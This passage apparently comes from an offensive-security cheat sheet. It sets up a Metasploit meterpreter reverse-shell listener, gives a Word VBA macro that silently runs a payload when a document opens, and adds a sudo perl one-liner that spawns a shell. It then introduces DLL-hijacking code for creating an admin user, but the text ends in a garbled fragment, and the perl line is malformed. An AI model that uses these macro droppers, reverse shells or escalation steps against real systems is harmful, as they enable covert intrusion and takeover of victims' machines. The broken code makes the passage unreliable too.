 **Import to note** that one modification needs to be done to make this work.  The output will be working on an MS excel sheet. Therefore, change the `Workbook_Open()` to `Document_Open()` to make it suitable for MS word documents.

Now copy the output of the above command and save it into the macro editor of the MS word document.

Don't forget to run the listener on your machine.

```
msf5 > use exploit/multi/handler 

[*] Using configured payload generic/shell_reverse_tcp 

msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp payload => windows/meterpreter/reverse_tcp 

msf5 exploit(multi/handler) > set LHOST 10.50.159.15 LHOST => 10.50.159.15 

msf5 exploit(multi/handler) > set LPORT 443 LPORT => 443 

msf5 exploit(multi/handler) > exploit
```

**Manual Macro**

The below code can be copied into the macro editor and saved in the MS document. Be sure to change the payload to equal the reverse shell you want to execute.

```excel
Sub PoC()
	Dim payload As String
	payload = "path-to-exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub

Sub Document_Open()
  PoC
End Sub

Sub AutoOpen()
  PoC
End Sub
```

### Privilege Escalation

#### perl one liner for privilege escalation

```
root@kali$:sudo perl -e 'exec' "/bin/bash";'
```

#### C code to perform DLL Hijacking

The below code can be used to perform DLL hijacking and create a new admin user. Change the values in the code according to your needs.


[Text.Encoding]: :ASCII)) .ReadToEnd() ;"